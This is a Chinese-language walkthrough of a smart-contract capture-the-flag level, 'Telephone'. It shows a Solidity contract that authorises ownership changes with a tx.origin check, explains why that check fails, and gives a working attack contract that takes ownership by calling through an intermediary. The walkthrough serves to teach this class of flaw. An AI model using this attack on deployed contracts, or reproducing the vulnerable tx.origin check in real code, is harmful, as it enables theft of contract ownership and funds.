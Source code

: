 # 4. Telephone
### 原题
```
获得下面合约来完成这一关

```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
### 分析
这道题又是让我们想办法获取所有权。唯一能下手的地方就是changeOwner()这个函数了。最关键的是要满足“tx.origin != msg.sender”。tx.origin是什么。origin表示是交易的最初发起者。msg.sender又是什么。sender是消息的直接调用者。什么时候最初发起者和消息调用者可以不同的呢？中间加个桥，加个转发。就像神秘大佬从来不会抛头露面，一般都是有自己的代理人出面打理。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external ;
}

contract TelephoneAttack{

    ITelephone telephone;
    
    constructor(address _telephone)  {
        telephone = ITelephone(_telephone);
    }

    function changeOwnerAttack() public returns (bool){
      // 站在攻击合约的角度，msg.sender可能是我的钱包账号
      // 站在被攻击合约的角度，msg.sender是攻击合约的地址
      // tx.origin就是我的钱包账号(我调用攻击合约，发起攻击)，被攻击合约收到的msg.sender是攻击合约地址
      (bool success,) = address(telephone).call(abi.encodeWithSignature("changeOwner(address)", msg.sender));

      return success;
    }
}
```